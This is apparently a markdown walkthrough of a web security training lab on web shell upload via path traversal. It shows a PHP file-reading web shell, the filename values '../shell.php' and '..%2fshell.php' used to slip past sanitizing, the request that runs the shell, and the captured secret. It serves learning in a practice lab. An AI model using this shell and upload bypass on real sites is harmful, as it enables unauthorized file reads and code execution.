





### Web shell upload via path traversal : PRACTITIONER

---

> We need to read contents of the `/home/carlos/secret` file.
> Given login credentials `wiener:peter`.


> Logging in as wiener.


> We see this my-account page.


> We upload the script to fetch the contents of the required directory.
``` PHP
<?php echo file_get_contents('/<path>'); ?>
```
> `shell.php`.

> Notice the `POST` request that is sent when we upload the file.



> It works fine, and there are no errors. 
> If we navigate to the directory where the file is uploaded by checking the `GET` request that is sent when we go to the my-account page.


> We see that the script contents are displayed normally in plain text.

> Therefore, the directory we uploaded the script in doesn't execute it.
> Trying to go back one directory up using the `../` traversal sequence.

> To do that, head to the `POST` request and change the `filename` parameter.
```
filename="../shell.php"
```



> We see that in the response, we have uploaded a file to `avatars/shell.php`.
> This is the same directory we placed into the first time.
> This means that the sequence `../` is being sanitized.

> Trying to encode the sequence and trying the same technique agian.
```
filename="..%2fshell.php"
```



> The response shows that we uploaded a file to `avatars/../shell.php` which means we went up one directory.

> Trying to modify the `GET` request above and change the path.
```
GET /files/avatars/../shell.php
```



> We see that the script is executed.
> Copying the secret and submitting it to complete the lab.
```
TGD3nGwWohTHEvbxCPJC15HH7sJ4QOzG
```

---
